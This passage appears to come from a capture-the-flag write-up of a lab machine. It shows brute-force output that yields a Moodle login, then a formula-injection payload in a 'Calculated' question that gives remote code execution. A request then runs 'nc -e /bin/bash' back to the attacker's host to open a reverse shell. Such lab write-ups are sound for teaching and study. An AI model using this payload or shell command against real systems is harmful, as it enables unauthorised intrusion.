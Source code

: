 ==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000065:  C=303      6 L	      34 W	    454 Ch	  "Th4C00lTheacha#"

Total time: 11.37637
Processed Requests: 94
Filtered Requests: 93
Requests/sec.: 8.262736
{% endhighlight %}

This means we got this credential for moodle.
{% highlight shell %}
giovanni:Th4C00lTheacha#
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-04-26/2019-04-26-14-54-27.png)

Then click on Algebra, setting button, and "More..."
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-04-26/2019-04-26-14-57-44.png)

Click "questions" and "create a new question".<br>
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-04-26/2019-04-26-15-01-09.png)

Then, click "Caluculated" and "add".<br>
Put following values, save the change and click "next page".
{% highlight shell %}
Question name: baa
Question test: foo
fomula: /*{a*/`$_GET[0]`;//{x}}
Grade: 100%
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-04-26/2019-04-26-18-07-08.png)

By sending following request with web browser, we can achieve a reverse shell.
{% highlight shell %}
# current page url + &0=(date;nc -e /bin/bash 10.10.14.23 443) 
http://10.10.10.153/moodle/question/question.php?returnurl=%2Fquestion%2Fedit.php%3Fcourseid%3D2&appendqnumstring&scrollpos=0&id=7&wizardnow=datasetitems&courseid=2&0=(date;nc%20-e%20/bin/bash%2010.10.14.23%20443)
{% endhighlight %}
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.153] 48136
ls
addquestion.php
behaviour
category.php
category_class.php
category_form.php

~~~

{% endhighlight %}

Then, spawn a full tty shell.
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.153] 48144
python -c 'import pty;pty.spawn("/bin/bash")'
~~~